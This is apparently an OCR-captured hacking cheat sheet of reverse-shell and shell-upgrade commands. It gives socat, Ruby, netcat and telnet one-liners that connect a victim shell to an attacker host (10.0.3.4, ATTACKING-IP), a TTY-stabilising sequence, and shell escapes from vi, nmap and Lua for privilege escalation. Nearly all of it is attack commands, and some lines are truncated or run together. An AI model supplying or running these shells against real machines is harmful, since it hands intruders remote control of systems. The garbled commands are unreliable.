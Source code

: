     python -c 'import pty; pty.spawn("/bin/bash")'

Using socat:

    Listener:
    socat file:`tty`,raw,echo=0 tcp-listen:4444

    Victim: 
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

Using stty options


    In reverse shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z

    In Kali
    stty raw -echo
    fg

    In reverse shell
    reset
    export SHELL=bash
    export TERM=xterm-256color
    stty rows <num> columns <cols> (after running stty -a on our own machine)

-   echo os.system('/bin/bash')

-   /bin/sh --i

-   execute('/bin/sh')

    -   LUA
-   !sh

    -   Privilege Escalation via nmap
-   :!bash

    -   Privilege escalation via vi

### Fully Interactive TTY

            In reverse shell python -c 'import pty; pty.spawn("/bin/bash")'Ctrl-Z                                
            In Attacker consoles tty -stty raw -echo; fg                                
            In reverse shellresetexport SHELL=bashexport TERM=xterm-256colorstty rows <num> columns <cols>
```

### **Spawn Ruby Shell**

-   exec "/bin/sh"

-   ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d

### **Netcat**

-   /usr/bin/nc 10.10.14.14 4444 -e /bin/bash (listen on host)

-   nc -e /bin/sh ATTACKING-IP 80

-   /bin/sh | nc ATTACKING-IP 80

-   rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

### **Telnet Reverse Shell**

-   rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

-   telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

```